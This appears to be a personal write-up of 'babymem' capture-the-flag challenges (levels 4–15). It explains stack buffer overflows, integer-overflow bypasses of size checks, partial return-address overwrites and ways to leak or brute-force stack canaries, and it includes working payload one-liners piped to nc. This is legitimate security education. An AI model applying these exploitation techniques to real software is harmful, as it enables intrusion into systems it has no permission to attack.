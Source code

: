 # Memory Errors
- *babymem_level4.0*: There is a check on the payload size to ensure our input won't overflow the buffer. We can bypass it by given a payload size `-1`, the challenge uses a signed integer to hold this, which will treat this value as `-1`, so we can pass the check. But for the `read` function, it will treat `-1` as an unsigned integer `0xff...fff`, which is enough for us to reach the return address
    - `rbp = 0x7ffcb4903d50`
    - `&buffer = 0x7ffcb4903d00 (rbp-0x50)`
    - `&win = 0x4024bc`
- *babymem_level4.1*: use the same method as the previous challenge to bypass the payload size check. This time, no address information is provided, we need to `gdb` the challenge to figure out those information
    - `rbp = 0x7fffca526940`
    - `&buffer = 0x7fffca526900 (rbp-0x40)`
    - `&win = 0x401b01`
- *babymem_level5.0*: we are allowed to input multiple payload records, and they will be concatenated together. There is a size check to ensure the total size of the payload fits in the buffer. By debugging the challenge program, we can know that it only checks whether `record_size * record_num < 8`, if we input `-1` and `-1`, we can bypass this check. But another problem is that, the input is 32-bit, the `read()` will take a 64-bit value as its third parameter, `0xffffffff` in 64-bit registers will be a positive number, and the result is very large. When `rdx` is large, `read()` will not read anything, and return a negative result. I am not sure the reason for this yet, but we need to find another way. Take advantage of integer overflow. For example, `record_size = INT32_MIN`, `record_num = 2`, `record_size * record_num` will get `0`
    - `rbp = 0x00007ffc1284b0d0`
    - `&buffer = 0x7ffc1284b080 (rbp-0x50)`
    - `&win = 0x401b01`   
- *babymem_level5.1*: use the same method
    - `rbp = 0x00007ffcca645050`
    - `&buffer = 0x7ffcca644fd0 (rbp-0x50)`
    - `&win = 0x401453`

- *babymem_level9.0*: this time the stack canary is enabled. The core logic of the challenge is `while(n < size) n += read(0, input + n, 1);`, we can use this to overwrite local variable `n` to jump over the canary and overwrite the return address directly. The program is position indepentdent, that means each time we run it, the address of `win_authed` function varies. But due to memory alignment, the first 48 bits of `&win_authed` and the original return address are always the same, and the last 2 bytes of `&win_authed` are `0x?5f5`, so we only need to brute-force this `?` (there are 16 cases), specifically, we fix `?` to a number, and keep running the challenge again and again, until we hit the correct `win_authed` address
    - `&buffer = rbp - 0x70`
    - `&n = &buffer + 100`
    - `&ret_addr = &buffer + 120`
    - `&win_authed = (<OriginalReturnAddress> & 0xffffffff0000) + 0x?5f5`
    - We need to jump over the canary, and modify the 2 bytes from `&buffer + 120` to `0xf5` and `0x?5`, respectively
    - The initial value of `n` is zero, we need to overwrite the buffer, such that after one `n += read(0, input + 0, 1)` instruction, `n` becomes 120 (`0x78`). Then we can input the 2 bytes. `read(0, input + 0, 1)` allows us to input at most 1 byte. First, we need to write 100 bytes to reach the position of `n`, then we need to write a specific value `0x77` to the location, and `n = 0x77+0x01 = 0x78`, we can then write the 2 bytes `0xf5` and `0xa5`
    - An important thing is that there is a check on `edi` in `win_authed`, it only opens and prints out the flag when `edi` is `0x1337`, so we need to figure out how to set `edi` before the `challenge` returns. Unfortunately, we cannot modify `edi` to what we want. Fortunately, we can just jump to a position after that check in `win_authed`, e.g., jump to `win_authed+28` (`0x...?611`)
- *babymem_level9.1*: 
    - `win_authed+28` at `0x...?98c`
    - `&n - &buffer = 0x7ffd906b02bc - 0x7ffd906b02a0 = 28 = 0x1c`
    - `&ret_addr - &buffer = 0x7ffd906b02d0 - 0x7ffd906b02a0 + 8 = 0x38`
- *babymem_level11.0*: the flag will be loaded into memory, but at no point it will be printed out. The input buffer will be stored in an mapped page of memory. The flag is `0x8000` bytes after the address of the buffer, but I could only input `0x1000` bytes of data. I finally figured out that this limit `0x1000` is not set by the challenge, but `printf` (I used `printf "..." | /challenge/...` to run the challenge). Use `(echo "32768"; python3 -c "print('a' * 0x8000)") | /challenge/babymem_level11.0`
- *babymem_level11.1*: debug the program to get the address information
- *babymem_level12.0*: we need to bypass the canary by utilizing a backdoor in the binary to overwrite the return address and get `win_authed` to be executed
    - `&buffer = rbp-0x60`
    - `&ret_addr = rbp+0x08`
    - `&canary = rbp-0x08`
    - `&win_authed+28 = 0x...?1fc`
    - Here is what the backdoor does: It calls `strstr@plt` function, which searches string `"REPEAT"` in our input, if `"REPEAT"` doesn't occur, the `challenge` function checks the canary and returns. Otherwise, it will call `challenge` again, with parameters: `edi = DWORD PTR [rbp-0x84]`, `rsi = QWORD PTR [rbp-0x90]`, `rdx = QWORD PTR [rbp-0x98]` (actually, these are the parameters saved at the beginning of the `challenge`)
    - Note that the `rbp (1st challenge) = rbp (2nd challenge) + 0xb0`
        ```
        +0x08 (ret_addr1)
        0x00 (rbp1)
        -0x08 (canary)
        ...
        -0x60 (buffer1)
        ...
        -0xa8 (ret_addr2)
        -0xb0 (rbp2)
        -0xb8 (canary)
        ...
        -0x110 (buffer2)
        ```
    - As far as I know, there is no way we can jump over the canary and write the return address in this situation. Instead, I noticed that in each run of `challenge`, the value of canary is the same, if we can cause the program to leak the canary (this may somehow modify part of the canary, but the next `challenge` is called before it checks the canary, so we can still get the flag before the program crashes), and in the next `challenge`, we can construct a payload to write this canary and then the target return address
- *babymem_level12.1*: debug the program to find the key offset information, use the same method as level 12.0
- *babymem_level13.0*: In `challenge`, e can find that some data is left in the stack frame, that means those data are not initialized after last use. By observing `main` function, we can see that there is a function `verify_flag`, which opens and read the content of `/flag` to memory, the address is `0x7ffd8421d97a`, then we can get `&buffer` in `challenge`, it is `0x7ffd8421d950` (i.e., `&flag=&buffer+0x2a`), we can pad non-zero bytes to the buffer until we reach the flag
- *babymem_level13.1*: debug the program, find the offsets, leak the flag!
- *babymem_level14.0*: this challenge is like a combination of level 13 and 12. This time, we cannot directly pad non-zero bytes to the canary to leak it, because to do that we need to pad 377 bytes, but the program prints out our input using format string `"%.371s"`, which will print out at most 371 bytes. We can also find the value of the canary at `&buffer+216` and `&buffer+104`
- *babymem_level14.1*: debug the program, find the offsets, leak the flag!
- *babymem_level15.0*: This challenge is listening for connections on TCP port 1337. We can use `nc` command to send data to it. 15.0 is easy as it prints out the value of the canary, and in the same run of the challenge, each connection we created uses the same value for the canary, and the address of `win_authed` is fixed
    - `&canary=&buffer+56`
    - `&win_authed+28=0x71e4`
    - `canary=0x1040006c898c7200` (little endian: `00 72 8c 89 6c 00 40 10`)
    - Initial exploit: `(echo "74"; python -c "print('a' * 56 + '\x00\x72\x8c\x89\x6c\x00\x40\x10' + 'a'*8 + '\xe4\x71')") | nc localhost 1337`. A problem here is that sending the of output `print` of python to `nc` only works for bytes less than `0x80`, e.g., if we use `python -c "print('\x81')" | nc host port`, it will actually send `0xc2 0x81`. A solution is to use `echo -e '\x81'`. So, the payload that works is: `(echo "74"; echo -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x00\x72\x8c\x89\x6c\x00\x40\x10aaaaaaaa\xe4\x71') | nc localhost 1337`
- *babymem_level15.1*: we need to brute force 2 values, the address of `win_authed`, and the stack canary. Luckily, we can brute force them separately. First, the canary, to find out the canary, we can try payload with different length, until there is a `SIGABRT` (or we can do it manually with `(echo "100"; python -c "print('a'*100)" | nc localhost 1337)`, and see if there is a `*** stack smashing detected ***: terminated`). We can know that `&canary=&buffer+104`
    - Then, we can start to brute force the canary, actually we can do this one byte a time, and the first byte is always `0x00`. We start from the second byte, i.e., use a payload of 106 bytes: `'a'*104 + '\x00\x??'`. The canary is (little endian) `\x00\na\xda\x02\x9d\xd4\x00`
    - The address of `win_authed` is fixed in each run of the challenge, `gdb` it and we can know that `&win_authed=0x...?f4e`, we only need to try 16 cases to get the correct address
